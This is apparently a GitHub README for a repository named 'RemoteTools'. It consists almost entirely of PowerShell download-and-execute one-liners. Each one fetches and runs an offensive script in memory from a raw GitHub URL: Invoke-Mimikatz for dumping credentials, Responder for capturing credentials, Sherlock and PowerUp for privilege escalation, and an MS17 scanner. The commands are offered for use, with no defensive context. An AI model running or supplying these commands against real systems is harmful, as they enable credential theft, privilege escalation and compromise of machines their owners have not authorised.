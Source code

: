 # RemoteTools

# Credit to og uploader / creators

## These are configured to be run via powershell remotely.  
Run any of the following commands via the powershell terminal

### Credit to the original authors 

### Mimikatz 
#### Requires privs

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/Invoke-Mimikatz.ps1')  

### Responder

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/Responder.ps1')  

### Sherlock

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/Sherlock.ps1')

### Powerup

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/PowerUp.ps1')

### MS17 Scanner (Requires Powershell AD Module)
#### Requires privs

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/MS17.ps1')
